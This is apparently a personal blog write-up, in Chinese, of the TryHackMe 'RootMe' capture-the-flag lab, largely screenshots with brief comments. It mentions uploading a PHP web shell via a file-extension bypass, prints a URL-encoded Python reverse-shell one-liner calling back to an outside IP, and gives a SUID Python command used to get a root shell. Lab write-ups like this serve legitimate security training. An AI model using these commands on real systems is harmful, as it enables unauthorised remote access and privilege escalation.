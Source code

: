 ```yaml
---
title: '[thm] RootMe'
date: 2024-12-27 20:09 +0800
categories: [hack,TryHackMe]
tags: []
---
```


## information

![alt text](<../assets/img/2024-12-27-[thm] rootme.assets/image.png>)
> 端口扫描

![alt text](<../assets/img/2024-12-27-[thm] rootme.assets/image-2.png>)

![alt text](<../assets/img/2024-12-27-[thm] rootme.assets/image-1.png>)
> panel

![alt text](<../assets/img/2024-12-27-[thm] rootme.assets/image-3.png>)

![alt text](<../assets/img/2024-12-27-[thm] rootme.assets/image-4.png>)
改个后缀就可以成功上传了，但是反弹shell居然用不了，可能是php版本问题，换个一句话🐎上去。

![alt text](<../assets/img/2024-12-27-[thm] rootme.assets/image-5.png>)

## user1

![alt text](<../assets/img/2024-12-27-[thm] rootme.assets/image-6.png>)
> python3%20-c%20'import%20os,pty,socket;s=socket.socket();s.connect(("10.14.95.76",1234));[os.dup2(s.fileno(),f)for%20f%20in(0,1,2)];pty.spawn("sh")'

换了python3的反弹shell拿下用户

## root

![alt text](<../assets/img/2024-12-27-[thm] rootme.assets/image-8.png>)
> ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
![alt text](<../assets/img/2024-12-27-[thm] rootme.assets/image-7.png>)
有蟒蛇啊有蟒蛇！

## conclution
- 看了upload的代码，预期是用php5之类的后缀绕过，所以phtml用不了
- 不必局限于一种方式。